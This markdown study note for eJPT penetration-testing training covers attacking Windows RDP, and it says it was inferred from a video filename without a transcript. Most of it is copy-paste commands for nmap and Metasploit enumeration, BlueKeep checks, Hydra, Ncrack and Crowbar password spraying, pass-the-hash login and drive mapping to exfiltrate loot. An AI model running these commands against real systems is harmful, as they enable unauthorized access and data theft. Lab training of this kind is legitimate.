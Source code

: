 # Exploiting RDP (Remote Desktop Protocol)

Note: No transcript was provided. The following is a conservative, best-effort summary based on the filename “12 - Exploiting RDP.mp4” within “02-ExploitingWindowsVulnerabilities” and common eJPT methodology.

## What the video covers (Introduction / big picture)
- How to identify and enumerate RDP (TCP/3389) on Windows targets.
- How to assess RDP security posture (NLA, encryption, domain/workgroup info).
- How to check for well-known RDP vulnerabilities (older MS12-020; BlueKeep CVE-2019-0708) safely.
- How to perform credential attacks against RDP (password spraying/bruteforce) with appropriate caution.
- How to connect once valid credentials are found (xfreerdp basics).
- Practical considerations to avoid account lockouts and service crashes.

## Flow (ordered)
1. Discover RDP and fingerprint the service.
2. Enumerate RDP settings and host/domain info (NSE scripts).
3. Optionally check for known RDP vulns (carefully).
4. Build a focused user/password strategy (names from enumeration, org clues).
5. Attempt credential attacks with rate/lockout controls.
6. Validate credentials by logging into RDP.
7. Transfer files or operate interactively via RDP session.

## Tools highlighted
- Nmap (scripts: rdp-enum-encryption, rdp-ntlm-info, rdp-vuln-ms12-020)
- Metasploit (auxiliary/scanner/rdp/*, rdp_login; BlueKeep check modules)
- Hydra or Ncrack (credential attacks against RDP)
- Crowbar (RDP password spray)
- xfreerdp (primary Linux RDP client; supports domain, clipboard, drive mapping)
- rdesktop (fallback RDP client; older)

## Typical command walkthrough (detailed, copy-paste friendly)

Create a working folder
```bash
mkdir -p ~/engagement/scans ~/engagement/wordlists
cd ~/engagement
```

1) Scan for RDP and fingerprint
```bash
# Quick check on a single host
nmap -p 3389 -sC -sV -oN scans/rdp_basic.txt <IP>

# Sweep a subnet for RDP
nmap -p 3389 --open -oG scans/rdp_grepable.txt <CIDR>

# Enumerate RDP details
nmap -p 3389 --script rdp-enum-encryption,rdp-ntlm-info,rdp-vuln-ms12-020 -oN scans/rdp_nse.txt <IP>
```
- rdp-enum-encryption: Checks protocol security (SSL/TLS/Standard RDP) and NLA support.
- rdp-ntlm-info: Extracts domain/workgroup and OS build via NTLM.
- rdp-vuln-ms12-020: Tests for an older, serious RDP vuln (can be risky on fragile systems—use with caution).

2) (Optional) Metasploit enumeration and vuln checks
```bash
msfconsole -q
```
Inside msfconsole:
```text
# Basic RDP scanner (detects service and some properties)
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS <IP>
run

# Check for BlueKeep (module names can vary; search first)
search bluekeep
# Example:
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS <IP>
run
```
Note: Many BlueKeep exploits are unstable and require very specific target conditions. Use check modules rather than exploitation in typical eJPT labs.

3) Build credential lists (example)
```bash
# Based on org info and rdp-ntlm-info output (domain/workgroup)
cat > users.txt << 'EOF'
Administrator
admin
user
svc_account
EOF

# Use a focused password list for spray first
cat > passwords.txt << 'EOF'
Spring2024!
Password1
Welcome1
Admin@123
P@ssw0rd
EOF
```

4) Credential attacks (use caution to avoid lockouts)

Hydra (stop on first hit, verbose, modest concurrency)
```bash
hydra -L users.txt -P passwords.txt -f -V -t 4 rdp://<IP>
# Single user spray
hydra -l Administrator -P passwords.txt -f -V -t 4 rdp://<IP>
```

Ncrack (good RDP support; can limit concurrency)
```bash
ncrack -vv --user Administrator -P passwords.txt --connection-limit 1 rdp://<IP>:3389

# Multiple users
ncrack -vv -U users.txt -P passwords.txt --connection-limit 1 rdp://<IP>:3389
```

Crowbar (simple spray, single user)
```bash
crowbar -b rdp -s <IP>/32 -u Administrator -C passwords.txt
```

Metasploit rdp_login
```text
use auxiliary/scanner/rdp/rdp_login
set RHOSTS <IP>
set USER_FILE users.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
set BRUTEFORCE_SPEED 5
run
```

Tips for formats:
- If a domain is present, try usernames as DOMAIN\user and user@domain.local in tools that support it.
- Keep thread counts low (-t 1..4) and consider time gaps to avoid lockouts.

5) Connect with xfreerdp once you have valid creds
```bash
# Local account or standalone
xfreerdp /v:<IP> /u:<User> /p:'<Password>' /cert:ignore +clipboard /dynamic-resolution /drive:loot,/tmp

# Domain account
xfreerdp /v:<IP> /u:<User> /p:'<Password>' /d:<DOMAIN> /cert:ignore +clipboard /dynamic-resolution /drive:loot,/tmp
```

Optional xfreerdp notes:
- /cert:ignore: ignore self-signed TLS certs.
- +clipboard: enables clipboard sharing.
- /drive:loot,/tmp: maps /tmp as a drive “loot” in the RDP session for easy file transfer.
- Pass-the-hash may work on some FreeRDP builds:
```bash
# Only if your xfreerdp supports NTLM hash auth and target accepts it
xfreerdp /v:<IP> /u:<User> /pth:<NTLM_HASH> /cert:ignore
```

6) Alternative RDP client (fallback)
```bash
rdesktop -u <User> -p '<Password>' -g 1366x768 -r clipboard:PRIMARYCLIPBOARD -r disk:loot=/tmp <IP>
```

## Practical tips
- Prefer targeted password spraying before full bruteforce. Start with a handful of high-probability passwords.
- Mind account lockouts. Use low thread counts, insert delays, and stop on success.
- Use rdp-ntlm-info to grab domain/workgroup and OS info; tailor usernames accordingly.
- NLA enabled typically mitigates older pre-auth RDP exploits (e.g., BlueKeep). Expect credential-based paths to be the practical route in labs.
- Many vuln checks can be disruptive. Read the NSE script docs and Metasploit module notes; avoid unsafe checks on fragile systems.
- If RDP is reachable only internally, consider pivoting/port-forwarding (beyond scope here) instead of scanning from outside.
- After login, you can map a drive and use the clipboard for quick loot exfiltration.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Discover and enumerate
nmap -p 3389 -sC -sV -oN rdp_basic.txt <IP>
nmap -p 3389 --script rdp-enum-encryption,rdp-ntlm-info,rdp-vuln-ms12-020 -oN rdp_nse.txt <IP>

# 2) (Optional) Metasploit checks
msfconsole -q -x "use auxiliary/scanner/rdp/rdp_scanner; set RHOSTS <IP>; run; exit"

# 3) Prepare creds
echo -e "Administrator\nadmin\nuser" > users.txt
echo -e "Password1\nWelcome1\nP@ssw0rd" > passwords.txt

# 4) Try creds cautiously
hydra -L users.txt -P passwords.txt -f -V -t 3 rdp://<IP>
# or:
ncrack -vv -U users.txt -P passwords.txt --connection-limit 1 rdp://<IP>:3389

# 5) Connect if creds found
xfreerdp /v:<IP> /u:<User> /p:'<Password>' /cert:ignore +clipboard /dynamic-resolution /drive:loot,/tmp
```

## Summary
- RDP (3389/TCP) is a high-value Windows entry point in many eJPT scenarios.
- Enumerate first: nmap with rdp-enum-encryption and rdp-ntlm-info to learn NLA, domain, and OS hints.
- Treat pre-auth RDP vulns (MS12-020, BlueKeep) carefully; in modern/lab setups, credential attacks are the practical path.
- Use Hydra/Ncrack/Crowbar or Metasploit rdp_login with conservative rates to avoid lockouts.
- Connect with xfreerdp and leverage clipboard/drive mapping for efficient post-access workflow.